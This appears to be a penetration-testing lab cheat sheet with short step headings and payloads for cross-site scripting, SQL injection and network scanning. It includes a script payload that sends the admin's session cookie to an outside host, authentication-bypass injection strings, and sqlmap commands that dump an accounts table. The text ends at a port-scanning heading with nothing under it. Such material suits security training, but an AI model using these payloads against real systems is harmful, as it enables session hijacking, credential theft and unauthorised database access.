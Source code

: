 ### Cross Site Scripting

Find all the XSS

```
<i>Hello</i>

<script>alert(document.cookie)</script>
```

Steal the admin session cookies

```
<script>new Image().src="http://192.168.99.11/get.php?cookie=" + document.cookie</script>
```

### SQL injection

Explore the web application

```
' or 1=1;-- -
```

Test and exploit the injection points

```
http://10.124.211.96/newsdetails.php/id=1 or 1=1; -- -

http://10.124.211.96/newsdetails.php/id=1 or 1=2; -- -
```

Dump the data

```
sqlmap -u http://10.124.211.96/newsdetails.php/id=1 --dbs

sqlmap -u http://10.124.211.96/newsdetails.php/id=1 -D asd --tables

sqlmap -u http://10.124.211.96/newsdetails.php/id=1 -D asd -T accounts --dump 
```

Login without using any credential

```
' or 1=1;-- -
```

---

### Bruteforce and Password and Cracking

Find alive host on this network

```
sudo nmap -sn <ip>/<subnet>
```

Port scan and service detection
